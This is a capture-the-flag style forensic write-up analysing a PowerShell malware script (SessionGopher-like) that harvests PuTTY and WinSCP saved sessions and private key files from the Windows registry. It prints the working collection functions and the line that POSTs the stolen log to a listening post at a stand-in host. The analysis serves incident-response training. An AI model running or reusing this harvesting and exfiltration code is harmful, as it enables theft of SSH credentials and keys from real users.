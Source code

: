 ### First Insights

At this point in the investigation we now know that we had a malicious script execute on an employee's machine. Now that we have discovered the script, we need to examine the code being executed to determine what data the malware stole from the machine and sent to the LP. This will require a full breakdown of the malware and examination of files that the script accessed. This task attached an artifacts.zip, which contained multiple PuTTY and WinSCP keys and the employee's NTUSER.dat file. With these given files, along with the malware script, we have a good route to determine the extent of the breach.

### Malware Examination

Our first step to find the comprimised OOPS account is to examine the malware. The entire script is included in this task's directory, but we will be using snippits of it.
After the inital function declarations, we see that there is a global log that is being sent back to the listning post and the Invoke-SessionGopher function is called. We will start there.

```
function Invoke-SessionGopher {
  # Value for HKEY_USERS hive
  $HKU = 2147483651
  # Value for HKEY_LOCAL_MACHINE hive
  $HKLM = 2147483650

  $PuTTYPathEnding = "\SOFTWARE\SimonTatham\PuTTY\Sessions"
  $WinSCPPathEnding = "\SOFTWARE\Martin Prikryl\WinSCP 2\Sessions"


  Write-Log "Digging on $(Hostname)..."

  # Aggregate all user hives in HKEY_USERS into a variable
  $UserHives = Get-ChildItem Registry::HKEY_USERS\ -ErrorAction SilentlyContinue | Where-Object {$_.Name -match '^HKEY_USERS\\S-1-5-21-[\d\-]+$'}

  # For each SID beginning in S-15-21-. Loops through each user hive in HKEY_USERS.
  foreach($Hive in $UserHives) {

    # Created for each user found. Contains all PuTTY, WinSCP, FileZilla, RDP information.
    $UserObject = New-Object PSObject

    $ArrayOfWinSCPSessions = New-Object System.Collections.ArrayList
    $ArrayOfPuTTYSessions = New-Object System.Collections.ArrayList
    $ArrayOfPPKFiles = New-Object System.Collections.ArrayList

    $objUser = (GetMappedSID)
    $Source = (Hostname) + "\" + (Split-Path $objUser.Value -Leaf)

    $UserObject | Add-Member -MemberType NoteProperty -Name "Source" -Value $objUser.Value

    # Construct PuTTY, WinSCP, RDP, FileZilla session paths from base key
    $PuTTYPath = Join-Path $Hive.PSPath "\$PuTTYPathEnding"
    $WinSCPPath = Join-Path $Hive.PSPath "\$WinSCPPathEnding"

    if (Test-Path $WinSCPPath) {

      # Aggregates all saved sessions from that user's WinSCP client
      $AllWinSCPSessions = Get-ChildItem $WinSCPPath

      (ProcessWinSCPLocal $AllWinSCPSessions)

    } # If (Test-Path WinSCPPath)

    if (Test-Path $PuTTYPath) {

      # Store .ppk files
      $PPKExtensionFilesINodes = New-Object System.Collections.ArrayList

      # Aggregates all saved sessions from that user's PuTTY client
      $AllPuTTYSessions = Get-ChildItem $PuTTYPath

      (ProcessPuTTYLocal $AllPuTTYSessions)

      (ProcessPPKFile $PPKExtensionFilesINodes)

    } # If (Test-Path PuTTYPath)

  } # For each Hive in UserHives

  Write-Host "Final log:"
  $global:log
```
This function acts as the "main" of the script. It gives away what data the malware is attempting to dig in the declarations of *$PuTTYPathEnding* and *$WinSCPPathEnding*. These tell us that the malware is attempting to look for stored data about the machine's PuTTY and WinSCP sessions. The malware then looks in the Windows User Registry for all past and current users on the machine. After collecting all of the users, the script calls two methods, *ProcessWinSCPLocal* and *ProcessPuTTYLocal*. This confirms that the malware is digging for ssh credentials. We will now look at the *ProcessPuTTYLocal* method.

```
function ProcessPuTTYLocal($AllPuTTYSessions) {

  # For each PuTTY saved session, extract the information we want
  foreach($Session in $AllPuTTYSessions) {

    $PuTTYSessionObject = "" | Select-Object -Property Source,Session,Hostname,Keyfile

    $PuTTYSessionObject.Source = $Source
    $PuTTYSessionObject.Session = (Split-Path $Session -Leaf)
    $PuTTYSessionObject.Hostname = ((Get-ItemProperty -Path ("Microsoft.PowerShell.Core\Registry::" + $Session) -Name "Hostname" -ErrorAction SilentlyContinue).Hostname)
    $PuTTYSessionObject.Keyfile = ((Get-ItemProperty -Path ("Microsoft.PowerShell.Core\Registry::" + $Session) -Name "PublicKeyFile" -ErrorAction SilentlyContinue).PublicKeyFile)

    # ArrayList.Add() by default prints the index to which it adds the element. Casting to [void] silences this.
    [void]$ArrayOfPuTTYSessions.Add($PuTTYSessionObject)

    # Grab keyfile inode and add it to the array if it's a ppk
    $Dirs = Get-ChildItem $PuTTYSessionObject.Keyfile -Recurse -ErrorAction SilentlyContinue
      foreach ($Dir in $Dirs) {
        Switch ($Dir.Extension) {
          ".ppk" {[void]$PPKExtensionFilesINodes.Add($Dir)}
        }
      }
  }

  if ($o) {
    $ArrayOfPuTTYSessions | Export-CSV -Append -Path ($OutputDirectory + "\PuTTY.csv") -NoTypeInformation
  } else {
    Write-Log "PuTTY Sessions"
    Write-Log ($ArrayOfPuTTYSessions | Format-List | Out-String)
  }

  # Add the array of PuTTY session objects to UserObject
  $UserObject | Add-Member -MemberType NoteProperty -Name "PuTTY Sessions" -Value $ArrayOfPuTTYSessions

} # ProcessPuTTYLocal
```
This is the one of the bulk digging functions of the malware. This method looks at each PuTTY session store in the Registry and extracts two values, *HostName* and *PublicKeyFile*. These two values are exactly what the malware needs to be able to get into a machine, as long as the Public Key file is non-encrypted. From all of the parsed keyfiles in the registry the malware then searches the machine for the matching key files and saves them to the global log as a .csv. The other digging method looks for WinSCP sessions and does the same thing. After the registry and key files are parsed, the malware then makes it POST request to the LP.

```
Invoke-WebRequest -uri http://rlwmw.invalid:8080 -Method Post -Body $global:log
```
Now knowing that the malware is searching for unsecure keys stored on the machine, we must look at the included NTUSER registry file to see if any keys are not encrypted.

### Understand Windows Registry

The first step to examine the Registry is to know how to open the file. After research, I was able to load the hive onto my machine and was ready to see what the malware touched. Following the path in the malware, I was albe to see that there was a decent amount of files that the malware examined. 

```
$PuTTYPathEnding = "\SOFTWARE\SimonTatham\PuTTY\Sessions"
$WinSCPPathEnding = "\SOFTWARE\Martin Prikryl\WinSCP 2\Sessions"
```

![image](https://user-images.githubusercontent.com/94944325/145702185-36260c1c-2458-4dc1-99ce-eb84cb5d11fb.png)

Looking into the registry, we were able to narrow down the list of keys we needed to find that could be unencrypted.
![image](https://user-images.githubusercontent.com/94944325/145702220-e11866e9-264f-4a22-8ace-248b463eba21.png)
![image](https://user-images.githubusercontent.com/94944325/145702234-fc112f06-a083-4d61-a894-afe4fc4ad68d.png)


### Determine Comprimise
